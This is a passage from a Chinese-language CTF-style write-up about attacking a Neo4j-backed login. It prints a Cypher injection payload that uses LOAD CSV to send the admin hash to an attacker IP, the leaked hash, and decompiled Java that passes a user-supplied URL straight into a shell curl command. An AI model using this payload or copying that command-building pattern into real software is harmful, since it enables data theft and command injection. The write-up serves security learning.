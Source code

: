 似乎存在着**Cypher**注入，下面是一些文章

- [Fun with Cypher Injections - HackMD](https://hackmd.io/@Chivato/rkAN7Q9NY)

- [Protecting against Cypher Injection - Knowledge Base](https://neo4j.com/developer/kb/protecting-against-cypher-injection/)

- [Cypher Injection Cheat Sheet - Pentester Land](https://pentester.land/blog/cypher-injection-cheatsheet/#what-is-cypher-injection)

这里尝试的是**SSRF**外带出**admin**用户的**hash**值

```
{"username":"admin' OR 1=1  LOAD CSV FROM 'http://10.10.xx.xx/ppp='+h.value AS y Return ''//","password":"123"}
```

![](./images/image-35.png)

```
9f54ca4c130be6d529a56dee59dc2b2090e43acf
```

不幸的是，这个并不能被破解。。。。。而且更换用户也是一样的**hash**

查看之前的反编译

```
package com.cypher.neo4j.apoc;

import java.io.BufferedReader;
import java.io.InputStreamReader;
import java.util.Arrays;
import java.util.concurrent.TimeUnit;
import java.util.stream.Stream;
import org.neo4j.procedure.Description;
import org.neo4j.procedure.Mode;
import org.neo4j.procedure.Name;
import org.neo4j.procedure.Procedure;

/* loaded from: custom-apoc-extension-1.0-SNAPSHOT.jar:com/cypher/neo4j/apoc/CustomFunctions.class */
public class CustomFunctions {
    @Procedure(name = "custom.getUrlStatusCode", mode = Mode.READ)
    @Description("Returns the HTTP status code for the given URL as a string")
    public Stream<StringOutput> getUrlStatusCode(@Name("url") String url) throws Exception {
        if (!url.toLowerCase().startsWith("http://") && !url.toLowerCase().startsWith("https://")) {
            url = "https://" + url;
        }
        String[] command = {"/bin/sh", "-c", "curl -s -o /dev/null --connect-timeout 1 -w %{http_code} " + url};
        System.out.println("Command: " + Arrays.toString(command));
        Process process = Runtime.getRuntime().exec(command);
        BufferedReader inputReader = new BufferedReader(new InputStreamReader(process.getInputStream()));
```